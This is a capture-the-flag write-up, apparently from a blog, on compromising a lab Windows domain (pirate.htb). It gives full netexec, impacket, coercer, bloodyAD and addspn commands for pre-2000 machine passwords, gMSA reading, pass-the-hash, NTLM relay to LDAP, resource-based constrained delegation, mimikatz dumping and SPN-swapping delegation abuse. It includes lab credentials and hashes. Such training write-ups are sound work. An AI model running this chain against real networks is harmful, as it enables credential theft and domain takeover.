This is a Windows hard box. I liked it a lot, and I learned a lot of valuable techniques from it. Note: This is a very long writeup, but I hope you'd stick with me!

## nmap
Starting off with an `nmap` scan, all the ports open are typical ports for a domain controller.

```
PORT      STATE SERVICE       VERSION                                                                                                                      
53/tcp    open  domain        Simple DNS Plus                                                                                                              
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                     
|_http-title: IIS Windows Server                                                                                                                           
|_http-server-header: Microsoft-IIS/10.0                                                                                                                   
| http-methods:                                                                                                                                            
|_  Potentially risky methods: TRACE                                                                                                                       
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-07 05:14:42Z)                                                               
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                        
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)                                  
| ssl-cert: Subject: commonName=DC01.pirate.htb                                                                                                            
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb                                                             
| Not valid before: 2025-06-09T14:05:15                                                                                                                    
|_Not valid after:  2026-06-09T14:05:15                                                                                                                    
|_ssl-date: 2026-03-07T05:16:12+00:00; +7h00m01s from scanner time.                                                                                        
445/tcp   open  microsoft-ds?                                                                                                                              
464/tcp   open  kpasswd5?                                                                                                                                  
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                                                          
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)                                  
|_ssl-date: 2026-03-07T05:16:11+00:00; +7h00m00s from scanner time.                                                                                        
| ssl-cert: Subject: commonName=DC01.pirate.htb                                                                                                            
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb                                                             
| Not valid before: 2025-06-09T14:05:15                                                                                                                    
|_Not valid after:  2026-06-09T14:05:15
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-07T05:16:12+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-07T05:16:12+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49685/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49915/tcp open  msrpc         Microsoft Windows RPC
56872/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Initial Recon - Bloodhound
We are given credentials for a low-privileged domain user, pentest. I then used the account and `bloodhound-python`to collect information about the domain. I found that there are 2 remote management users, and the domain computer MS01 can read the password of the account GMSA ADFS.





Further examining MS01, I found that it belongs to the group pre-windows 2000 compatible. When creating a computer account in Active Directory and selecting the **"Pre-Windows 2000"** compatibility option, the default computer account password becomes the computer's name in all lowercase.


netexec has a module that identifies pre-created computers and obtains Keberos TGTs using their default machine passwords. Something to note here is that I needed to sync my time with the server first because Kerberos authentication is time-sensitive. Before doing that, make sure to add the ip for `pirate.htb` and `dc01.pirate.htb` to `/etc/hosts0`.

```
sudo ntpdate -u <dc ip> && nxc ldap <dc ip> -u pentest -p 'p3nt3st2025!&' -M pre2k
```



Next, export the ms01 ccache. netexec also has a module to read the gmsa password using the TGT. 
```
export KRB5CCNAME=/home/kali/.nxc/modules/pre2k/ccache/ms01.ccache 
nxc ldap <dc ip> --use-kcache --gmsa
```



Now, we can perform Pass-the-Hash with `evil-winrm` to obtain a shell on DC01.



## NTLM Relay LDAP
When enumerating ldap on DC01, I found that ldap signing is off, which means that it can be subject to NTLM relay ldap attacks.



I was also able to find the ip address for web01, which seems to be on the internal network.



So I set up tunneling with Ligolo-ng and found that web01 has webdav enabled, which means I can perform a HTTP to LDAP NTLM attack.





To perform the NTLM relay attack, I first need to add a DNS record so that the server can resolve the hostname to my attacker IP.

```
dnstool -u 'pirate.htb\pentest' -p 'p3nt3st2025!&' -r littlebim -a add -t A -d <attacker ip> <dc ip>
```



Next, I set up the relay server using ldap:
```
impacket-ntlmrelayx -debug -t ldaps://<dc ip> -i -smb2support -domain pirate.htb
```



To coerce web01 to authenticate to our server, I used `coercer`:
```
coercer coerce -t 192.168.100.2 -l 'littlebim@80/anything' -u 'gMSA_ADFS_prod$' --hashes ':fd9ea7ac7820dba5155bd6ed2d850c09' -d pirate.htb -v
```



Going back to check the relay server, I got a shell on localhost port 11000! Let's connect to the shell.





## Resource-Based Constrained Delegation
Next, I performed a Resource-Based Constrained Delegation to impersonate the Administrator on web01.
I first created a new computer:
```
add_computer BIM$ password123
```

Then I set the computer to have the privilege to be able to perform the attack:
```
set_rbcd WEB01$ BIM$
```



Add an entry to `etc/hosts`: `192.168.100.2 web01.pirate.htb`
Use `impacket-getST` to request a ticket for Administrator:
```
impacket-getST -spn cifs/web01.pirate.htb -impersonate Administrator 'pirate.htb/BIM$:password123'
```



Then I renamed the ticket to "Administrator.ccache" (for convenience) and used `impacket-psexec` to log onto web01 and dumped the hashes with `mimikatz`:
**Note: psexec requires the spn to be cifs**

```
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass web01.pirate.htb
```



Now armed with a shell as the system user, I used mimikatz to dump the hashes on web01. I found the hash for user `a.white`!


## Bloodhound Path
Looking back at Bloodhound, I saw that `a.white` can force change the password for `a.white_adm` in outbound control.



Looking at `a.white_adm`'s execute privileges, I found that it has `AllowedToDelegate` privilege on web01, which allows for the constrained delegation attack. However, we only have it on web01, but our next target is dc01.



Interestingly, looking at the user's outbound controls, I saw that the account has `writeSPN` on dc01. What if I can "change" the delegation attack target to dc01 instead?


## Force Change Password
I first obtained a ticket as a.white with the NTLM hash:
```
impacket-getTGT pirate.htb/'a.white' -hashes :d2593a013aaf8e077ab0e69f9471b4c1
```



I then changed the password of `a.white_adm` with `bloodyAD`:
```
export KRB5CCNAME=a.white.ccache
bloodyAD -d pirate.htb \                                      
    --host dc01.pirate.htb \
    --dc-ip <dc ip> \
    -k set password a.white_adm 'NewPass!123'
```



## Clear SPN and Write SPN
Next, this is where the trick happens:
Keberos heavily relies on SPNs to function, where it uses the SPN to identify the correct service account. The SPN essentially acts as an unique identifier for a service. 
Using `impacket-finddelegate`, I found that the AllowedToDelegate privilege is to the SPN `http/web01.pirate.htb`, so what if I give that SPN to dc01 instead of web01? There's one important thing - no 2 same SPNs are allowed, so I needed to clear web01's SPN first and then write it to dc01.

```
impacket-findDelegation 'PIRATE.HTB/a.white_adm:NewPass!123' -dc-ip <dc ip>
```



Clear web01's SPN:
```
addspn --clear -u 'PIRATE\a.white_adm' -p 'NewPass!123' -t web01$ dc01.pirate.htb
```



Write the SPN for dc01:
```
addspn -u 'PIRATE\a.white_adm' -p 'NewPass!123' -t dc01$ -s http/WEB01.pirate.htb dc01.pirate.htb
```



I confirmed that dc01 now contains the SPN:
```
addspn -u 'PIRATE\a.white_adm' -p 'NewPass!123' -t dc01$ -q dc01.pirate.htb
```



Now, we can perform the constrained delegation attack on dc01:
```
impacket-getST -spn 'http/WEB01.pirate.htb' -impersonate administrator 'pirate.htb/a.white_adm':'NewPass!123' -dc-ip <dc ip>
```



There's an important step before we get to the final shell - point `web01.pirate.htb` to the ip of dc01 in `/etc/hosts`. This is because dc01 will accept tickets issued for that SPN (`http/web01.pirate.htb`), but the connection needs to actually reach dc01's IP.

The last step is to get a privileged shell with the ticket and pwn the box! Something to note here is that I used `impacket-smbexec` because SMB negotiation is more lenient since our SPN is http.

```
export KRB5CCNAME=administrator@http_WEB01.pirate.htb@PIRATE.HTB.ccache
impacket-smbexec -k -no-pass web01.pirate.htb
```



Finally the end! It's my longest writeup yet... if you looked through everything in this blog you've earned my respect :3